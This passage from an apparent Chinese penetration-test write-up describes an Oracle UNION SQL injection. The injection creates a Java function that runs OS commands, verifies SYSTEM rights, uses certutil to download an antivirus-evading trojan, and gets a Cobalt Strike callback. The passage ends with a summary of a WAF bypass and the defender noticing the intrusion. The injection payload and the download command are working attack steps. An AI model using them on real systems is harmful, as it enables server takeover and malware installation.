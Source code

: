 最后创建执行函数，执行LINXRUNCMD：

  * 

    
    
    UNION ALL SELECT  dbms_xmlquery.newcontext('declare PRAGMA AUTONOMOUS_TRANSACTION;begin execute immediate ''create or replace function LinxRunCMD(p_cmd in varchar2) return varchar2 as language java name ''''LinxUtil.runCMD(java.lang.String) return String''''; '';commit;end;'),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL FROM DUAL--

验证函数是否创建成功：

  * 

    
    
    select OBJECT_ID from all_objects where object_name ='LINXRUNCMD'

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20221214112539.png)

最后调用函数执行命令：

  * 

    
    
    select LinxRunCMD('whoami') from dual

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20221214112540.png)

权限为system，因此可以下载免杀木马，直接cs上线。使用以下命令下载木马：

  * 

    
    
    certutil -urlcache -split -f http://127.0.0.1/1.exe C:\Windows\Temp\1.exe

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20221214112541.png)

运行木马，cs收到反弹的权限：

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20221214112542.png)

由于是server 2012的服务器，未能获取到明文密码。

  

 **总结**

此次的渗透，可以说是相对比较幸运，由于waf的较弱，比较容易绕过。通过注入获取数据后，刚好有一个管理员账号未设置验证，能够登录后台。通过多个后台权限，寻找防护较弱的后台进行oracle联合注入，执行命令获取主机权限。但由于后续被管理员发现，可能流量存在异常或者木马被查杀，未能继续进行内网探索。相关成果已移交。

  

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20221214112543.png)

  

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20221214112547.png)

预览时标签不可点
